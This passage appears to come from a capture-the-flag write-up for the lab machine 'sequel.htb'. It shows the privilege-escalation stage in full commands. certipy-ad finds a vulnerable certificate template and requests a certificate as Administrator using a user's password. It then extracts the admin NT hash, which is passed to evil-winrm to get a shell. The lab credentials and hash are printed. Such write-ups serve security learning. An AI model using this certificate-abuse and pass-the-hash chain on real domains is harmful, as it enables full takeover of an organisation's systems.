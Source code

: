 Ok we got something so let's run certipy / certipy-ad

```
certipy-ad find -u "Ryan.Cooper" -p "NuclearMosquito3" -target sequel.htb -stdout -vulnerable -text
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250912112505.png)

Checking permissions we can spot that we can abuse it and request for PFX of admin user

```
certipy-ad req -u "Ryan.Cooper@sequel.htb" -p "NuclearMosquito3" -dc-ip 10.10.11.202 -template 'UserAuthentication' -upn "Administrator@sequel.htb" -ca "sequel-DC-CA"
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250912113016.png)

Now we can get administrator hash using same tool

```
certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.11.202
```

also sync time with ad 

```
ntpdate 10.10.11.202
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250912113208.png)

We get administrator password hash so we are in home, let's connect with evil-winrm and get root.txt

```
evil-winrm -i 10.10.11.202 -u administrator -H a52f78e4c751e5f5e17e1e9f3e58f4ee
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250912113323.png)
